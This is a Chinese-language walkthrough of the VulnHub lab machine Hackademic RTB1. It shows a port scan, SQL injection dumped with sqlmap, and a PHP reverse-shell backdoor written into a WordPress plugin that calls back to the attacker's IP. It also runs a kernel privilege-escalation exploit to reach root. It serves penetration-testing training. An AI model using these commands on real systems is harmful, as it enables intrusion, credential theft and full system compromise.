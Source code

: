 # Hackademic: RTB1

2024-6-4 https://www.vulnhub.com/entry/hackademic-rtb1,17/

difficulty: easy

## IP

192.168.5.30

## Scan

Open Port -> 22,80

```
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
|_http-title: Hackademic.RTB1
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.15 (Fedora)
```

80 web 访问时，跳转到 http://funbox.fritz.box/，先将 funbox.fritz.box 添加到 /etc/hosts 中。

http://funbox.fritz.box/ 访问后，里面有个 target 链接，底部有一个 Uncategorized 链接，http://funbox.fritz.box/Hackademic_RTB1/?cat=1 在 1 后面加'，出现了 sql 报错，证明存在 sql 注入，使用 sqlmap 将数据 dump 出来：

```
WordPress database error: [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\\\' LIMIT 1' at line 1]
SELECT * FROM wp_categories WHERE cat_ID = 1\\\' LIMIT 1

sqlmap -u 'http://funbox.fritz.box/Hackademic_RTB1/?cat=1' --level 3 --batch --dbs

available databases [3]:
[*] information_schema
[*] mysql
[*] wordpress

sqlmap -u 'http://funbox.fritz.box/Hackademic_RTB1/?cat=1' --level 3 --batch -D wordpress -T wp_users -C user_nickname,user_pass --dump

+---------------+---------------------------------------------+
| user_nickname | user_pass                                   |
+---------------+---------------------------------------------+
| NickJames     | 21232f297a57a5a743894a0e4a801fc3 (admin)    |
| MaxBucky      | 50484c19f1afdaf3841a0d821ed393d2 (kernel)   |
| GeorgeMiller  | 7cbb3252ba6b7e9c422fac5334d22054 (q1w2e3)   |
| JasonKonnors  | 8601f6e1028a8e8a966f6c33fcd9aec4 (maxwell)  |
| TonyBlack     | a6e514f9486b83cb53d8d932f9a04292 (napoleon) |
| JohnSmith     | b986448f0bb9e5e124ca91d3d650f52c            |
+---------------+---------------------------------------------+
```

尝试用这几个得到的用户凭据，ssh 登陆，但是没有成功。

再看主页上，显示的是 wordpress ,直接找登陆入口:

```
http://funbox.fritz.box/Hackademic_RTB1/wp-login.php
```

使用 GeorgeMiller:q1w2e3 登陆后，发现是 admin 权限，其他用户都没有修改页面的权限。

直接在 http://funbox.fritz.box/Hackademic_RTB1/wp-admin/plugin-editor.php?file=markdown.php&a=te 中写入我们的后门一句话：

```
system("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'");
```

kali 上监听 8888 端口，访问后门 php 页面，触发反弹 shell:

```
curl http://funbox.fritz.box/Hackademic_RTB1/wp-content/plugins/markdown.php
```

得到了反弹的 shell，开始进行系统枚举。

发现数据库连接配置信息：

```
bash-4.0$ cat wp-config.php

define('DB_NAME', 'wordpress');     // The name of the database
define('DB_USER', 'root');     // Your MySQL username
define('DB_PASSWORD', 'lz5yedns'); // ...and password
define('DB_HOST', 'localhost');     // 99% chance you won't need to change this value
```

/home 目录下，发现用户 p0wnbox.Team ，尝试用上面的密码切换到 p0wn 用户，没有成功，其他路径也没发现可以利用的点。

内核版本较低，可以进行提权。

Linux Kernel 2.6.36-rc8 - 'RDS Protocol' Local Privilege Escalation | linux/local/15285.c

```
bash-4.0$ gcc 15285.c -o 15285
bash-4.0$ ./15285
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
sh-4.0# id
uid=0(root) gid=0(root)

sh-4.0# cat /root/key.txt
Yeah!!
You must be proud because you 've got the password to complete the First *Realistic* Hackademic Challenge (Hackademic.RTB1) :)

$_d&jgQ>>ak\#b"(Hx"o<la_%

Regards,
mr.pr0n || p0wnbox.Team || 2011
http://p0wnbox.com
```

